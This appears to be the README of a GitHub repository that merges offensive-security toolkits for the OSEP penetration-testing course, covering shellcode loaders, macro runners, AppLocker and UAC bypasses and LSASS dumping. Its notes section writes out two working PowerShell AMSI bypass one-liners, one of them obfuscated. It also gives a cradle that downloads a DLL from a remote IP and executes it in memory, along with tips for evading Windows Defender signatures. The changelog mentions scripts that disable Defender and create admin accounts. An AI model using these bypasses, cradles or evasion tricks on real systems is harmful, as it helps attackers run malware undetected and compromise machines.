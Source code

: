 # OSEP Tools v2

A marriage between [Octoberfest/OSEP-Tools](https://github.com/Octoberfest7/OSEP-Tools) and [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets). Thanks to those guys for putting in the real work.

I made some changes to the repos obviously. The easiest way to see what I've done is check the commits and my [Changelog](#changelog) section below. Basically what I did was just rewriting the documentation for the tools, and fix some small things here and there. I kept everything from OSEP-Tools, but only the projects that I deemed useful from OSEP-Code-Snippets.

Below is a small table of contents, some notes, my changelog, and then the disclaimer from the OG OSEP-Tools repo author.

## ToC

| Module | Description | SubModules |
| ------ | ----------- | ---------- |
| Active_Directory | Tools that may aid in AD enumeration/exploitation | `sql` |
| AppLocker_Bypass | Tools that may aid in bypassing AppLocker | `altBypass`, `psBypass` |
| Linux | Tools that aid in executing shells on a Linux box | `Linux_Shellcode_Encoders`, `Linux_Shellcode_Loaders` |
| Loaders_PEs | Tools that aid in loading EXEs (PEs) into memory, *from disk*, and executing | `nonDN2J.hta` |
| Loaders_Shellcode | Tools that aid in loading executable shellcode into memory from a remote server and executing | `clhollow`, `clinject`, `D_invoke`, `powerhollow.py`, `powerinject.py` |
| Macros | Tools that aid in executing shellcode either from memory or disk, from a word VBS Macro | `WordMacroRunner.vbs`, `WordMacroRunnerBasic.vbs`, `vbObfuscate.ps1`, `WordPsCradle.vbs`, `WordMacroInject.vbs` |
| Misc | Tools aiding in misc things like AV enumeration, automation, dumping LSASS memory, and RCE leveraging win32 API | `AV_Stuff`, `Autos`, `Fileless_Lateral_Movement`, `MiniDump` |
| Privilege_Escalation | Tools that aid in Windows PE | `PrinSpoofer.Net`, `shakeitoff`, `UACBypass.ps1` |


## Notes

### Powershell AMSI bypass:
  
- Win10
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
  
- Win10+Win11  
```ps1
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
 
- Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
```ps1
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
```

With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
- Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
### Injection tools

Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
### Hollowing tools

Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherit the integrity of parent process.

### Discoveries

- Latest patch defender (Oct 2021) seems to have an "AND" based signature for `AutoOpen()`.  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
- `RtlMoveMemory` API call is signatured.  Use `RtlFillMemory` instead. 
- Resolve `Amsi.dll` and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
- Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.

### RESOURCES

- https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
- https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/

## To DOs

- Implement dynamic AMSI search capability as seen here: https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/
- Update `AV_Stuff` scripts
    - Add AppLocker Rules  disabling option to `Get-AppLockerRules.ps1`
    - Add `DisableLSA` script using my private notes
- Patch the `x64_met_staged_reverseHttps*` payloads in `/bins` bc they don't work. The tcp do.
    - Notes in the Loaders_Shellcode readme
- Integrate more of OSEP-Code-Snippets
- Update `UACBypass.ps1`

## Changelog
- [11/25/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/abf34fb4b0c761091ace1be6368c8bbdfcc3b2bb)
    - Initial commit; File structure changes, README updates/prettifying, repo merging
- 11/26/2023
    - Updated `WordMacroInject.vbs` to be able to inject when ran from a 32-bit Word process
    - Updated `WordMacroInject.vbs` to enumerate 32-bit processes and inject into a process other than `WINWORD.exe`
    - Updated `Disable-AVProduct.ps1` to better enumerate security products
    - Added `Misc/Autos` directory to automate common processes; Added `Create-Admin.ps1`
- 12/01/2023
    - Updated `Disable-AVProduct.ps1` to actually disable windows defender (using provided cmdlets/registry keys, nothing crazy)
    - More thorough minifying of `Disable-AVProduct.min.ps1`
    - Fix `powerhollow.py` and `powerinject.py` payloads to not fail if no Amsi found
    - Add input checks to ensure hollowing targets are valid
- 12/03/2023
    - Compile all projects to single directory for ease of access

# Disclaimer
> @Octoberfest7

All of these tools were developed for use in the OSEP course.  During development of them, as I learned more, in many cases I went above and beyond what the course taught because I figured "Why not build things against latest patch AV?".  That is not to say that all of the things in this repo are now beating Live Defender; however at one point or another, most of them were.  I hope that they may be of use to others, either for direct usage or to serve as inspiration for further work.

There is very little in terms of actual novel tradecraft here; it is a combination of a myriad of resources provided by people far smarter than I.  The majority of the heavy lifting I did here was towards automation.  I wanted an easy, standardized way to generate payloads for use in the OSEP course. All powershell and C# payloads contained within this repo utilize AES-256 encryption on the shellcode as well as a sleep statement for sandbox detection/evasion.

I offer no guarantees of any kind when using this stuff.  Nothing in here was designed for public release, I am doing so after many requests.  Make sure you read the notes provided on each tool in this README.
